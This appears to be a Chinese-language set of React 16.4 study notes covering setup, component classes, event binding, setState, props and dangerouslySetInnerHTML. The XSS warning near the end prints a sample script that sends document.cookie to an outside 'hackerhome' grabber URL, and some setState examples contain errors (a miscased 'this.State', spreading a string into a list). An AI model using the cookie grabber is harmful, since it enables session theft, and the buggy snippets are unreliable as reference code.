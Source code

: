 # React16.4

一.安装

    1.npm install -g create-react-app
    2.create-react-app reactDemo
    

二.文件目录

    1. src/index.js 为入口文件
    
    
三.基础用法

    1. import React ,{ Component , Fragment } from 'react';   /* Fragment为占位符，在页面上不会显示这个元素 */
        class (定义一个组件类) extends Component {
          constructor(props){
            super(props);

            /* 定义状态 */
            this.state = {
              inputValue : "",
              list : []
            }
          }

          render() {
            return (
              <Fragment>
              </Fragment>
            );
          }
        }
      
    2. 事件绑定

         在 constructor 中设置 bind this
         栗子 ： this.handleBtnClick = this.handleBtnClick.bind(this);

    3. react中 类名class要写成className , for 要写成 htmlFor, <label htmlFor="inputArea">请输入内容</label>
    
    4. 设置状态

         用法一 ： 
           this.setState({
            inputValue : ""
           });

         用法二 : 
           this.setState( (preState) => {
            return {
              list : [ ...this.State.list,...this.state.inputValue ],
              inputValue : ""
            };
           });

         用法三 : 
           /* preState 可以代替 this.state */
           this.setState( (preState) => ({
             list : [ ...preState.list,...preState.inputValue ],
             inputValue : "" 
           }))

    5. 父子组件通信
         
         ps ：react采用单项数据流，绝对不可以将父组件的 state 传递给子组件。
         
         假设这是一个子组件 <TodoItem /> , 那么我们可以这样将父组件的数据传给它 : 
            <TodoItem content = {item} /> // TodoItem 组件可以通过 this.props.content 拿到数据
         传递方法 : 
            ps : 一定要 记得 bind(this)
            <TodoItem  testBtn = {this.btnAlert.bind(this)} /> // TodoItem 组件可以通过 this.props.tesBtn() 调用方法
    
    6. dangerouslySetInnerHTML
         
         ps ：不合时宜的使用 innerHTML 可能会导致 cross-site scripting (XSS) 攻击。 净化用户的输入来显示的时候，经常会出现错误，不合适的净化也是               导致网页攻击的原因之一。dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告，它的 prop 值（ 一个对象而不是字符串               ）应该被用来表明净化后的数据。
         
         dangerouslySetInnerHTML = {{__html : this.state.html}}
         
         ps : 恶意脚本 ，获取网页cookie
         <script>
           document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' + document.cookie+' width=16 height=16 border=0 />');
         </script>
         
        
         
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
    
      
